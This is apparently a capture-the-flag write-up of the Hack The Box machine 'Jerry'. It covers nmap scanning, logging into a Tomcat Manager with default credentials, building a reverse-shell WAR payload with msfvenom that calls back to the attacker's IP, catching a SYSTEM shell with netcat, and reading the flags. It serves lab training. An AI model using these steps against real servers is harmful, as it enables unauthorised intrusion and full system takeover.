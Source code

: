 ```yaml
---
title: "Jerry"
url: "/writeups/hackthebox/jerry/"
summary: jerry
tags:
- hackthebox
- windows
- tomcat
- war
---
```


![Jerry](/Jerry.png)

## Scanning
### nmap
Started with an nmap scan:
* TCP all ports
```bash
kali@kali:~/ctf/htb/machines/jerry$ sudo nmap -T4 -p- 10.10.10.95 -oA nmap/tcp_all_ports
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 16:35 EDT
Nmap scan report for 10.10.10.95
Host is up (0.018s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
8080/tcp open  http-proxy
```
* TCP with scripts against found ports
```bash
kali@kali:~/ctf/htb/machines/jerry$ sudo nmap -sCV -p8080 10.10.10.95 -oA nmap/tcp_scripts
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 16:37 EDT
Nmap scan report for 10.10.10.95
Host is up (0.021s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
Only one port found, which is 8080 and looks to be an HTTP Apache Tomcat server, so it can be opened in a web browser.
```
## Enumeration
### Web Page
Looks to be a default Apache Tomcat page:
![Jerry](/jerry-apache_tomcat_page.png)
Using one of the default credentials found, `tomcat:s3cret`, logging into the Manager App section of the website is easy.
![Jerry](/jerry-apache_tomcat_manager.png)
Looking further down on the page, it looks like a WAR file can be uploaded and deployed to the server.
![Jerry](/jerry-deploy_war_file.png)

## Exploitation
Knowing that it takes a war file, a war file reverse shell can be created to upload and attempted to execute

### File Upload
Created the reverse shell war file using msfvenom
```bash
kali@kali:~/ctf/htb/machines/jerry$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f war > reverse.war
```
Now to upload the war file.
![Jerry](/jerry-deploy_war_file2.png)
After selecting the Deploy button it can now be seen in the Path column under Applications:
![Jerry](/jerry-reverse_shell_path.png)

### Reverse Shell
Now to start a netcat listener to catch the reverse shell after executing it:
```bash
kali@kali:~/ctf/htb/machines/jerry$ nc -lvnp 4444
listening on [any] 4444 ...
```
After selecting the /reverse path link from the Path column under Applications, a reverse shell is returned as the nt authority\system user:
```bash
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>hostname
hostname
JERRY
```
## Flags
With access as nt authority\system, no privilege escalation is needed, and both flags can be retrieved:
```bash
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0...

root.txt
04a8b36e1545a455...
```

